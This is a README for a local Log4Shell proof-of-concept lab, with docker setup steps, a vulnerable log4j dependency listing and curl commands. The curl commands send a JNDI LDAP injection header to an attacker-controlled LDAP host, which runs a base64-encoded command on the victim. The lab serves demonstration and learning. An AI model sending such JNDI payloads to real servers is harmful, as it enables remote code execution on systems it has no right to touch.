# Log4Shell POC Demo

This repository contains a submodule, clone it with:

```shell
git clone --recurse-submodules git@github.com:avergnaud/log4shell-poc-lab.git
```

## principe

![principe](./doc/Log4Shell.drawio.svg?raw=true "principe")

## Version de log4j

Dans ./victim, exécuter :
```
.\gradlew.bat dependencies > gradle-dependencies.txt
```

On voit :
```
\--- org.springframework.boot:spring-boot-starter-log4j2:2.6.1
+--- org.apache.logging.log4j:log4j-slf4j-impl:2.14.1
|    +--- org.slf4j:slf4j-api:1.7.25 -> 1.7.32
|    \--- org.apache.logging.log4j:log4j-api:2.14.1
+--- org.apache.logging.log4j:log4j-core:2.14.1
|    \--- org.apache.logging.log4j:log4j-api:2.14.1
+--- org.apache.logging.log4j:log4j-jul:2.14.1
|    \--- org.apache.logging.log4j:log4j-api:2.14.1
```

La version 2.14.1 est bien inférieure à la version patchéee 2.17.0
[https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)

## install
Si vous n'avez pas curl en local :
```
docker image build -f .\attacker-client\Dockerfile -t attacker-client:latest .
```

## Run

Then to start the demo execute:

```shell
docker compose up
```

Pour déclencher la requête :
Si vous n'avez pas curl en local :
```shell
docker container run --rm -it --network="host" attacker-client:latest curl -s localhost:8080 -H 'X-Api-Version:${jndi:ldap://attacker-ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9pd29ya2VkCg==}'
```
Sinon :
```shell
curl -s localhost:8080 -H 'X-Api-Version:${jndi:ldap://attacker-ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9pd29ya2VkCg==}'
```

To view the exploit creating a file on the victim server, execute:
```shell
docker compose exec victim ls -lah /tmp
```

# Blog Post
https://obscuritylabs.com/blog/log4shell-the-newest-vulnerability/

# doc
* [JNDI LDAP manipulation](./doc/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* 
* 
* 
* 
* 
* 

